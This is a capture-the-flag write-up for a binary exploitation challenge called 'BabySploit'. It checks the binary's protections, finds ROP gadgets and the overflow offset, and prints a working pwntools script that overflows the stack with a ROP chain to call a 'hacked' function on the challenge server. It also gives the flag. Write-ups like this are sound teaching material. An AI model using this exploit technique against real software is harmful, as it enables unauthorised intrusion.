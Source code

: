 ### BabySploit

Task:  

```bash
nc 78.40.108.21 1338
```

of find binary in attachment.     

### analyze

First, we will check, what file we got using the `file`:    

```bash
file ./babysploit
```

![img](./img/2024-03-17_15-25.png)     

Our file is an `ELF` file, which means Executable and Linkable Format and is the most common format
for executables and shared libraries (`.so` files) on `UNIX` systems. Dynamic linking allows the binary to be
smaller, at the expense of having to ensure that the required dependencies exist in the target system that
the binary will be executed in.     

The `checksec` command shows us, the security aspects of the binary:    

```bash
checksec ./babysploit
```

![img](./img/2024-03-17_15-36.png)    

### exploitation

As we can see, `NX` is enabled. If `NX` is enabled, the stack is usually not executable, so you can only read and
write from that section.    

Use `ROPGadget` to find the instructions:

```bash
ROPgadget --binary ./babySploit | grep "pop rdi ; ret"
```

![img](./img/2024-03-17_15-39.png)    

or via `ropper`:    

```bash
ropper --file ./babySploit --search "pop rdi; ret"
```

![img](./img/2024-03-17_15-40.png)    

```bash
ropper --file ./babySploit --search "pop rsi; ret"
```

![img](./img/2024-03-17_15-41.png)    

Find offset:    

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

![img](./img/2024-03-17_15-42.png)     

```bash
run
x/xg $rsp
pattern_offset 0x413b414144414128
```

![img](./img/2024-03-17_15-50.png)     

So, solution via python3 `pwntools`:    

```python
from pwn import *

exe = ELF('./babySploit')
context.binary = exe

p = remote('78.40.108.21', 1338)
# p = gdb.debug('./babySploit', '''continue''')

pop_rdi = 0x401196
pop_rsi = 0x401198
hacked = exe.symbols['hacked']
p.sendline(b'A' * 24 + p64(pop_rdi) + p64(0xdeadbeefdeadbeef) + p64(pop_rsi) + p64(0xc0debabec0debabe) + p64(hacked))

p.interactive()
```

Check:    

```bash
python3 babysploit.py
```

![img](./img/2024-03-17_17-17.png)    

Flag:    

```bash
nrzCTF{Y0U_H4V#_G00D_PrOGRESS}
```

*NX: - The NX (do not execute) bit is a technology used in CPUs that guarantees that certain memory
areas (such as the stack and heap) are not executable, and others, such as the code section, cannot
be written. It basically prevents us from using simpler techniques like we wrote a shellcode in the stack and then executed it.*    

